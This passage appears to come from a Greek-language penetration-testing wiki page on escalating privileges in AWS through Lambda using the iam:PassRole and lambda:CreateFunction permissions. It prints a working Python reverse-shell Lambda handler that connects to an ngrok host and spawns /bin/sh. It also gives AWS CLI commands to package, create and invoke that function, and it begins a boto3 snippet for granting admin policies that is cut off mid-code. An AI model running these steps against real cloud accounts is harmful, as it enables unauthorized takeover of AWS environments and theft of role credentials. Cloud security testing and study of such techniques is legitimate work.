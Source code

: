 # AWS - Lambda Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## lambda

Περισσότερες πληροφορίες για το lambda στο:

{{#ref}}
../../aws-services/aws-lambda-enum.md
{{#endref}}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Χρήστες με τα **`iam:PassRole`, `lambda:CreateFunction`, και `lambda:InvokeFunction`** permissions μπορούν να αυξήσουν τα privileges τους.\
Μπορούν να **δημιουργήσουν μια νέα Lambda function και να την αναθέσουν σε ένα υπάρχον IAM role**, δίνοντας στη function τα permissions που σχετίζονται με αυτό το role. Ο χρήστης μπορεί στη συνέχεια να **γράψει και να ανεβάσει κώδικα σε αυτή τη Lambda function (π.χ. με ένα rev shell)**.\
Μόλις η function ρυθμιστεί, ο χρήστης μπορεί να **προκαλέσει την εκτέλεσή της** και τις επιθυμητές ενέργειες καλώντας τη Lambda function μέσω του AWS API. Αυτή η προσέγγιση επιτρέπει ουσιαστικά στον χρήστη να εκτελεί εργασίες έμμεσα μέσω της Lambda function, λειτουργώντας με το επίπεδο πρόσβασης που παρέχει το IAM role που συνδέεται με αυτή.\\

Ένας attacker θα μπορούσε να το εκμεταλλευτεί για να αποκτήσει ένα **rev shell και να κλέψει το token**:
```python:rev.py
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```

```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
Μπορείτε επίσης να **abuse the lambda role permissions** from the lambda function itself.\
Εάν ο lambda role είχε αρκετά permissions, θα μπορούσατε να τον χρησιμοποιήσετε για να δώσετε admin rights σε εσάς:
```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
response = client.attach_user_policy(
```